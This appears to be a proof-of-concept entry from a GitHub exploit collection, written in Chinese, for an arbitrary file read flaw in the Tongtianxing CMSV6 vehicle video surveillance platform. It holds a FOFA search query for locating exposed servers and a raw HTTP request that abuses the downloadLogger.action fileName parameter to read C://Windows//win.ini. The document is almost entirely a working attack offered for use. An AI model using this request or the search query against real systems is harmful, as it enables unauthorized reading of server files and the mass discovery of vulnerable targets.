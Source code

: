 ## 通天星CMSV6车载视频监控平台downloadLogger接口任意文件读取漏洞

## fofa
```
body="./open/webApi.html"||body="/808gps/"
```


## poc
```
GET /808gps/logger/downloadLogger.action?fileName=C://Windows//win.ini HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![image](https://github.com/wy876/POC/assets/139549762/dd596d83-95b3-48de-abbb-74e7b3f47280)
